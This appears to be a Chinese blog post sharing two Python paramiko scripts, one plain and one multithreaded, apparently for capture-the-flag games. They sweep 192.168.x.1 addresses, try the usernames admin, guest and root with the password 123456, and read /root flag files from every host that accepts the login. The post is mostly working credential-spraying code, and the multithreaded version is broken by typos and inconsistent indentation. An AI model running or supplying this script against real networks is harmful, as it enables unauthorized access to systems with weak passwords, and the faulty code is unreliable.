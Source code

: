 ```yaml
---
title: Python-SSH批量登陆并执行命令
date: 2018-05-04
tag: python
layout: post
---
```



##直接上代码
 
``` python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import paramiko
from time import ctime
usernm = ["admin","guest","root"]
passwd = "123456"
def ssh():
	for i in range(1,254):
		for user in usernm:
			try:
			    host = "192.168.%s.1"%i
			    s=paramiko.SSHClient()
			    #创建ssh对象
			    s.load_system_host_keys()
			    s.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
			    #自动加载主机密钥 yes\no
			    s.connect(hostname=host,username=user,password=passwd)
			    stdin,stdout,stderr = s.exec_command('cat /root/flagvalue.txt')
                print "192.168.%s.1  USER:[%s]  Time:[%s]"%(i,user,ctime())
			    dd = stdout.read()
                print dd
			    stdin,stdout,stderr = s.exec_command('exit')
			    s.close
                if dd != None:
	                dd = None
	                break
	       except:
		       pass
print ssh()

```

> 跨网段批量登陆时速度明显会变慢

下面时运行结果图：
![运行结果](https://img-blog.csdn.net/20180504092159976?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)


#多线程版本

```
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import paramiko
import threading
from time import ctime,sleep 
def ssh():
    usernm = ["admin","guest","root"]
	ip = "192.168.%s.1"%i
	for user in usernm:
                try:
					s=paramiko.SSHClient()	
					s.load_system_host_keys()
					s.set_missing_host_key_policy(paramiko.AutoAddPolicy())  
					s.connect(hostname=ip,username=user,password='123456')
					stdin,stdout,stderr = s.exec_command('cat /root/flag*')
                    print "192.168.%s.1  USER:[%s]  Time:[%s]"%(i,uer,ctime())
					dd = stdout.read()
                    print dd
                            
					stdin,stdout,stderr = s.exec_command('exit')
					s.close
                    if dd != None:
                       dd = None
                       break
                except:
                    pass

for i in range(100,200):
        a=threading.thread(target=ssh,arg=())
        sleep(0.1)
		a.strat()
```	


运行效果：
![多线程](https://img-blog.csdn.net/20180504165634332?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

